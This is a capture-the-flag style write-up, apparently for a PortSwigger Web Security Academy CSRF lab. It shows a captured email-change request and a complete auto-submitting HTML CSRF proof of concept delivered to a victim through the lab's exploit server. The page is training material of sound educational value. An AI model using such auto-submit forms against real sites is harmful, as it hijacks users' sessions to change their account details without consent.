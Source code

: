 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/34a251c6-9e94-401a-a523-7b3e8247b1e8)

## Solution :

Clicking on `My Account` page takes us to a login page where we can login as as wiener using his credentials given -`wiener:peter`.

Once logged in, we can update the email of wiener,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5cc01966-ea46-41d0-a9f4-7325687ccf9c)

Capture the request in burp.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a83002103896297800267e6008600e1.web-security-academy.net
Cookie: session=vRoCEHdO9cE1ZP57WjbaYggaT9pMjztL
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: https://0a83002103896297800267e6008600e1.web-security-academy.net
Referer: https://0a83002103896297800267e6008600e1.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=wiener%40user.net
```

Here there is no CSEF protection ie (**No CSRF token or Samesite cookies**). There might be some referrer header validation but I don't think it is implemented in the first lab itself. Let test for CSRF vulnerability in this **update email** feature.

We need to create a HTML script which has a _autosubmit script_. So change the email parameter value to some random id ie - `email=test@test.net`

Right click on the request& select `Engagement Tools -> CSRF POC generator` .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5d34827b-8b4f-4249-887a-68ecc1c86dd7)

> Enable `Include autosubmit script` & click on  Regenerate to get the custom malicious HTML page.

Now we got our HTML exploit .

```http
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a83002103896297800267e6008600e1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Go to exploit server & upload the HTML in the body .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a2918752-dc1b-4637-bff5-342895d3b82f)

Finally click `Deliver exploit to victim`.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bd5b5783-ecd4-42d5-bfe1-998a9432ab4d)

This tells us that the victim user clicked on the malicious page which we created & it changed it password automatically . 

> When a victim clicks on the link to our page, since it has autosubmit script enabled, the victim's browser automatically adds his session cookie and performs the request . Thus as a result is changed to what the attacker wanted it to be . IN this case it is `test@test.net`






















